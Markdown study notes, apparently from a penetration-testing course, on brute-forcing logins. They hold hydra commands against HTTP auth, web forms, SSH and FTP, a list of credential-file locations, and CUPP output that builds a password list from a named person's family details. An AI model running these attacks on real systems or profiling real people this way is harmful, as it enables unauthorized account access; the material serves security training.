 
Here is a small list of files that can contain hashed passwords:

|**`Windows`**|**`Linux`**|
|---|---|
|unattend.xml|shadow|
|sysprep.inf|shadow.bak|
|SAM|password|

There are many tools and methods to utilize for login brute-forcing, like:

- `Ncrack`
- `wfuzz`
- `medusa`
- `patator`
- `hydra`
- and others.

# Basic HTTP Auth Brute Forcing
## Hydra

```bash
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

>[!NOTE]
>Tip: We will add the "-u" flag, so that it tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

### Username Brute Force

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```

# Web Forms Brute Forcing

## Hydra

### Brute Forcing Forms
`Hydra` provides many different types of requests we can use to brute force different services. If we use `hydra -h`, we should be able to list supported services:

```bash
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

To find out how to use the `http-post-form` module, we can use the "`-U`" flag to list the parameters it requires and examples of usage:

```bash
hydra http-post-form -U
```

In summary, we need to provide three parameters, separated by `:`, as follows:

1. `URL path`, which holds the login form
2. `POST parameters` for username/password
3. `A failed/success login string`, which lets hydra recognize whether the login attempt was successful or not

```bash
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"
```

#### Fail/Success String

| **Type**  | **Boolean Value** | **Flag**         |
| --------- | ----------------- | ---------------- |
| `Fail`    | FALSE             | `F=html_content` |
| `Success` | TRUE              | `S=html_content` |

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -u -f 94.237.52.234 -s 46077 http-post-form "/login.php:username=^USER^&password=^PASS^:Login"
```


# Service Authentication Attacks

## Personalized Wordlists

### CUPP

CUPP is used to create a custom password list.

```bash
cupp -i

___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: William
> Surname: Gates
> Nickname: Bill
> Birthdate (DDMMYYYY): 28101955

> Partners) name: Melinda
> Partners) nickname: Ann
> Partners) birthdate (DDMMYYYY): 15081964

> Child's name: Jennifer
> Child's nickname: Jenn
> Child's birthdate (DDMMYYYY): 26041996

> Pet's name: Nila
> Company name: Microsoft

> Do you want to add some key words about the victim? Y/[N]: Phoebe,Rory
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to william.txt, counting 43368 words.
[+] Now load your pistolero with william.txt and shoot! Good luck!
```

### Password Policy

 ```bash
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```

### Mangling

It is still possible to create many permutations of each word in that list. We never know how our target thinks when creating their password, and so our safest option is to add as many alterations and permutations as possible, noting that this will, of course, take much more time to brute force.

Many great tools do word mangling and case permutation quickly and easily, like [rsmangler](https://github.com/digininja/RSMangler) or [The Mentalist](https://github.com/sc0tfree/mentalist.git). These tools have many other options, which can make any small wordlist reach millions of lines long. We should keep these tools in mind because we might need them in other modules and situations.

### Custom Username Wordlist
One such tool we can use is [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), which we can clone from GitHub, as follows:

```bash
git clone https://github.com/urbanadventurer/username-anarchy.git
./username-anarchy Bill Gates > bill.txt
```

## SSH Bruteforcing
As usual, we will add the `-u -f` flags. Finally, when we run the command for the first time, `hydra` will suggest that we add the `-t 4` flag for a max number of parallel attempts, as many `SSH` limit the number of parallel connections and drop other connections, resulting in many of our attempts being dropped
```bash
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```

## FTP Bruteforcing

```bash
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```